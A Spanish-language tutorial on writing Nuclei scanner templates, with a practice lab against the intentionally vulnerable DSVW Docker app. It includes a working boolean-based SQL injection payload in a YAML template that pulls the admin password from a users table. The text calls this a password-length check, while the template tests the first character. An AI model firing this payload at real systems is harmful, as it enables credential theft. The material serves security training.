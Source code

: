 Los *extractors* dinámicos (con `internal: true`) capturan valores en tiempo de ejecución, como tokens CSRF, para su uso en peticiones posteriores.

---

### Funciones avanzadas

- **Solicitudes múltiples**: Encadena varias peticiones HTTP para simular interacciones de varios pasos (por ejemplo, extraer un token CSRF de una petición GET para utilizarlo en una petición POST posterior).
- **Scripts personalizados**: Procesa en línea los valores extraídos (por ejemplo, convierta un token a minúsculas antes de reutilizarlo).
- **Modos de ataque**: Defina estrategias de inyección de carga útil como *battering ram*, *clusterbomb* o *pitchfork*.

---

## Guía práctica: Servidor Web Vulnerable y Plantilla de Nuclei


### Iniciar el docker vulnerable

Vamos a utilizar [este](https://github.com/appsecco/vulnerable-apps/tree/master/dsvw) servidor con vulnerabilidades conocidas para probar y practicar nuestros nuevos conocimientos adquiridos sobre **plantillas Nuclei**.

Para iniciar el docker: `docker run -p 1234:8000 -it appsecco/dsvw`

Una vez iniciado, puedes acceder a él y ver un par de vulnerabilidades para probar y crear plantillas. La primera es el siguiente ejemplo:

En este primer ejemplo hay una **inyeccion SQL de tipo booleano** que puede ser detectada debido a a que cuando la query se da un valor de true la tabla se llena y cuando la query da un valor negativo no, usando el *matcher* **dsl** para mirar la longitud del cuerpo de la respuesta podemos saber si esta **inyeccion SQL de tipo booleano** esta presente en el activo. 

---

### Crear una plantilla de Nuclei para detectar la boolean SQLI

Para averiguar la longitud de la contraseña, utilizaremos un payload (de 1 a 9) codificado en la plantilla, aunque también se podría utilizar un archivo con mas *payloads* para hacerlo más dinámico.

Creamos un archivo llamado algo así como `BSQLI-dsvw.yaml` con el siguiente contenido:

```yaml
id: boolean-sqli-password-extract
info:
  name: SQLite Boolean-Based SQL Injection - Password Extraction
  author: yourName
  severity: critical
  tags: ["sqli","sqlite","boolean-based"]

http:
  - method: GET
    path:
      - "{{BaseURL}}?id=2%20AND%20SUBSTR((SELECT%20password%20FROM%20users%20WHERE%20name%3D%27admin%27)%2C1%2C1)%3D%27{{length}}%27"

    payloads:
      length:
        - 1
        - 2
        - 3
        - 4
```